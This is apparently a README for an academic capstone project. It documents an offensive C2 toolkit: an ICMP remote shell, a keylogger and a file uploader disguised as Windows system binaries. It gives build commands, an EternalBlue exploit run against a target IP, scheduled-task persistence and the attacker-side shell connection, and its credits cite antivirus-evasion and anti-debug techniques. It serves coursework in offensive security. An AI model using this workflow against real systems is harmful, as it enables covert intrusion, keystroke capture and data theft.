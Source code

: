 # CS564 - Capstone Project

---

## Requirement

-   Linux host (we used the provided VM of Ubuntu)
    -   Python 2.7
        -   [Installer (python.org)](https://www.python.org/downloads/release/python-2718/)
        -   [Pip installer](https://bootstrap.pypa.io/pip/2.7/get-pip.py)
        -   `impacket`: Run `python2 -m pip install impacket`
-   Windows 7 (for compiling implants)
    -   [Python 3.4.4](https://www.python.org/downloads/release/python-344/)
        -   [PyWin32 221](https://github.com/mhammond/pywin32/releases/tag/b221)
        -   pip==19.1.1
        -   APScheduler==3.3.0
        -   certifi==2018.11.29
        -   cffi==1.15.1
        -   chardet==3.0.4
        -   charset-normalizer==3.1.0
        -   cryptography==2.8
        -   future==0.18.3
        -   idna==2.7
        -   pycparser==2.21
        -   PyInstaller==3.2.1
        -   pyinstaller-hooks-contrib==2022.0
        -   pynput==1.6.8
        -   pytz==2023.3
        -   requests==2.20.1
        -   six==1.16.0
        -   tzdata==2023.3
        -   tzlocal==2.1
        -   urllib3==1.24.3
    -   Visual C++ 2008 compiler.
        -   [Installer (archive.org)](https://web.archive.org/web/20210106040224/https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)
    -   Visual Studio 2010 (do not use Express version)
        -   Visual C++ 10.0 with MFC
    -   Windows SDK 7.1
    -   [Resource Hacker](http://angusj.com/resourcehacker/) (for faking Version Info)

## Generating payload

We prepare a C2 package that communicates through ICMP protocol.

### Remote shell

To compile remote shell,
open Visual C++ 2008 32-bit Command Prompt, and type the
following. Remember to change `MY_IP` to the IP of commander.

```
cl.exe icmpsh-s.patch.c /D"MY_IP=\"192.168.191.128\""
```

### Keylogger (fileNew.py)

```
pyinstaller --additional-hooks-dir C:\Python34\Lib\site-packages\_pyinstaller_hooks_contrib\hooks\stdhooks --onefile --paths=C:\python34\lib\site-packages --windowed -i "C:\Windows\explorer.exe" fileNew.py
```

#### FileUploader (fileUploader.py)

```
pyinstaller --additional-hooks-dir C:\Python34\Lib\site-packages\_pyinstaller_hooks_contrib\hooks\stdhooks --hidden-import=queue --onefile --paths=C:\python34\lib\site-packages -i "C:\Windows\System32\slui.exe" fileUploader.py
```

Then use Resource Hacker to clone Version Info.

See `output/compiled.zip` for all Python compiled C2 payload.

## List of components when executing in attacker

-   `icmpsh-s.patch.exe` (Remote shell plant)
-   `explorer_32.exe` (Keylogger)
-   `OneDrive.bat` (Keylogger bootstrap)
-   `sluii.exe` (File Uploader)
-   `icmpsh_m3.py` (Remote shell connect)
-   `eBlue.py` (EternalBlue exploit)
-   `mysmb.py` (Necessary for EternalBlue)

## Infiltrate

Inside folder, `eBlue.py` is the exploit. Run

```
python2 eBlue.py 169.254.16.129
```

After running, the C2 package should now be stored inside the target system.
Additionally, a scheduled task is made to execute C2 in the future.

## Exfil

### Remote shell

Due to the protocol limitation, we need to connect using Linux system and
run the following command to disable automatic ICMP reply.

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1 >/dev/null
```

When the scheduled task run, in order to connect,
execute on our host:

```
sudo python3 icmpsh_m3.py 169.254.16.130 169.254.16.129
```

### Keylogger

This is executed on startup by `OneDrive.bat`.
Record data is stored in `%TMP%/Install.log`

### FileUploader

This can be executed by running

```
C:\WINDOWS\sluii.exe <file>
```

## Credits

-   `icmpsh-s.patch.c` and `icmpsh-m3.py` is based on [bdamele:icmpsh](https://github.com/bdamele/icmpsh)
-   `eBlue.py` from [Exploit-DB](https://www.exploit-db.com/exploits/42315)
-   Anti-debug techniques from [Anti-Debug Tricks](https://anti-debug.checkpoint.com/)
-   C obfuscation from [scrt:avcleaner](https://github.com/scrt/avcleaner)
-   [Resource Hacker](http://angusj.com/resourcehacker/)

## Disclaimer

Do not use this on systems unless you have been given explicit permission.
This is created for an academic course. We are not responsible for any
consequences both legally and ethically that are caused by the software.